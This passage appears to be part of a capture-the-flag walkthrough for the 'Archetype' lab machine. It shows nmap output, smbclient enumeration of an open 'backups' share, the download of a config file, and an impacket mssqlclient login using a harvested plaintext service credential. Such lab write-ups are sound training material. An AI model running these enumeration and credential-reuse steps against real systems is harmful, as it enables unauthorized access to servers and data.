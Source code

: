 |       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_clock-skew: mean: 1h19m59s, deviation: 4h02m30s, median: -1h00m01s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 14 15:52:50 2022 -- 1 IP address (1 host up) scanned in 124.04 seconds


Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to archetype failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available


└─$ smbclient \\\\archetype\\backups   
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 12:20:57 2020
  ..                                  D        0  Mon Jan 20 12:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 12:23:02 2020

                5056511 blocks of size 4096. 2524759 blocks available
smb: \> cd ..
smb: \> dir /a
NT_STATUS_NO_SUCH_FILE listing \a
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)
smb: \> quit

SE INSTALA IMPACKET
-------------------

┌──(kali㉿kali)-[~]
└─$ python3 impacket/examples/mssqlclient.py ARCHETYPE\sql_svc:M3g4c0rp123@archetype -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
